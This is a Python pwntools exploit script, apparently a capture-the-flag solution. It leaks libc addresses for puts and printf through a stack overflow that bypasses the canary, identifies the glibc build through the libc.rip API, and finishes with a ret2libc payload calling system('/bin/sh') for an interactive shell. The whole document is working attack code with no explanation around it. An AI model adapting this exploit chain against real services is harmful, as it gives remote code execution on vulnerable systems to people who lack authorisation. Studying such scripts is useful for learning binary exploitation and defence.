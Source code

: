 ```python
io.recvline()
libc_puts = int.from_bytes(io.recvline()[:4], 'little')
log.success(f'Found puts@libc: {hex(libc_puts)}')
payload  = b'A' * DUMMY_LEN + canary + b'B' * 12
payload += p32(elf.plt['puts']) + p32(elf.sym['win']) + p32(elf.got['printf'])
sleep(1)
io.clean()
io.sendline(payload)
sleep(1)
io.recvline()
io.recvline()
libc_printf = int.from_bytes(io.recvline()[:4], 'little')
log.success(f'Found printf@libc: {hex(libc_printf)}')

libc_base = 0
libc_system = 0
libc_bin_sh = 0
with log.progress('Asking libc.rip for glibc info') as p:
  query = {
    'symbols': {
      'puts': hex(libc_puts),
      'printf': hex(libc_printf)
    }
  }
  r = requests.post('https://libc.rip/api/find', json=query)
  r.raise_for_status()
  if len(r.json()) > 1:
    log.warn('More than one match found! Using the first result.')
  res = r.json()[0]
  log.success(f'glibc id: {res["id"]}')
  offset = res['symbols']
  libc_base = libc_puts - int(offset['puts'], 16)
  libc_system = libc_base + int(offset['system'], 16)
  libc_bin_sh = libc_base + int(offset['str_bin_sh'], 16)

log.success(f'libc is at {hex(libc_base)}')
log.success(f'system() is at {hex(libc_system)}')
log.success(f'"/bin/sh" is at {hex(libc_bin_sh)}')
log.info('YOLO!')
payload  = b'A' * DUMMY_LEN + canary + b'B' * 12
payload += p32(libc_system) + b'AAAA' + p32(libc_bin_sh)
io.clean()
io.sendline(payload)
io.interactive()
```

